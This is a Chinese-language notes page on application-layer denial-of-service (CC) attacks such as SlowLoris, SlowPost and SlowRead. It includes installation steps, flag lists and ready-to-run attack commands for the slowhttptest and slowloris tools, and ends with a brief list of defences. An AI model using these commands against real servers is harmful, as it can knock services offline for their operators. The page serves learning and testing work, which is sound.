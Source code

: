 # 应用层拒绝服务攻击
CC（Chanllenge Collapsar）：CC就是DDoS的一种。

通过控制某些主机补丁发送大量数据包给服务器造成服务器资源耗尽，一直到宕机崩溃，常用于攻击页面。

## 应用层拒绝服务攻击分类
### Get-Flood
直接对较为消耗资源的URL进行大量的请求，也可以通过多个URL并发，单一URL并发请求，随机URL请求等。

### SlowLoris
也称为slow headers，攻击者始终构造不完整的http header发送，同时还间隔一定时间再发送数据，导致服务器一直处于等待状态。

### SlowPost
也称为slow body，攻击的重点在POST数据上，通过将HTTP Header中的Content-Length设置为一个较大的值，同时还间隔一定时间再发送数据，导致服务器一直处于等待状态中。

### SlowRead
把window窗口设置为一个非常小的值，让服务器始终准备回应数据。

### HashDos

## 测试工具
### SlowHTTPTest
[github地址](https://github.com/shekyan/slowhttptest)

* **Centos7编译安装SlowHTTPTest**

```
yum install gcc.x86_64 gcc-c++.x86_64 openssl-devel.x86_64 -y
yum install automake.noarch autoconf.noarch -y

git clone https://github.com/shekyan/slowhttptest && cd slowhttptest
./configure
autoreconf -ivf
make && make install
```

* **SlowHTTPTest使用**

```
-H SlowLoris模式
-B SlowPost模式
-R Range Header模式
-X Slow Read模式

-g 生成统计信息
-o 指定输出文件名
-v 日志等级

-c 建立的连接数，默认为50
-i 在SlowLoris和Slow Post模式中，数据发送的间隔，默认为10
-l 测试维持时间，默认为240
-r 每秒连接个数，默认为50
-s 声明Content-Length header值，默认为4096
-t http verb在请求时使用什么操作，默认为GET
-u 指定目标URL
-x 在SlowLoris和Slow Post模式中，指定发送的最大数据层航都
-y 在Slow Read模式中指定tcp窗口范围上限，默认为32
-f 指定Content-Type Header，默认为application/x-www-form-urlencoded
-m 指定Accept Header，默认为text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5

-d 为所有连接指定代理
-e 为探测连接指定代理
-p 指定等待时间来确认攻击已经成功
```

* **SlowHTTPTest使用案例**

```
# slowloris模式
slowhttptest -c 1000 -H -g -o my_header_stats -i 10 -r 200 -t GET -u URL -x 24 -p 3

# slowpost模式
slowhttptest -c 3000 -B -g -o my_body_stats -i 110 -r 200 -s 8192 -t POST -u URL -x 10 -p 3

# slowread模式
slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u URL -p 3
```

### slowloris
* **slowloris安装**

```
# pip安装
pip3 install slowloris
slowloris example.com

# git下载
git clone https://github.com/gkbrk/slowloris.git && cd slowloris
python3 slowloris.py example.com
```

* **slwoloris使用**

```
-p PORT 指定端口，默认80
-s SOCKETS 套接字数量，默认150
-v 增加日志记录
-ua 对每个请求随机化UA参数
--proxy-host PROXY_HOST SocketS5代理主机，默认127.0.0.1
--porxy-port PROXY_PORT SocketS5代理端口，默认8080
--https 对请求使用https

# SocketS5代理支持，需要额外安装PySocks Python模块
pip3 install PySocks
```

* **slwoloris使用案例**

```
python slowloris.py IP # 攻击http 80端口

python slowloris.py -p 443 --https IP # 攻击https 443端口
```

## CC攻击防御
* 判断UA字段（不可靠，可以随意构造绕过）；
* 网页中嵌入JS代码（不可靠，爬虫可以携带浏览器引擎，或者加载JS）；
* 针对IP+Cookie限制访问频率（不可靠，Cookie可以伪造，IP存在代理池问题）；
* 关闭Apache最大连接数等，合理配置中间件，缓解DDoS攻击；
* 页面中添加验证码；
* 合理优化代码，合理使用缓存技术，减少数据库的读写操作；
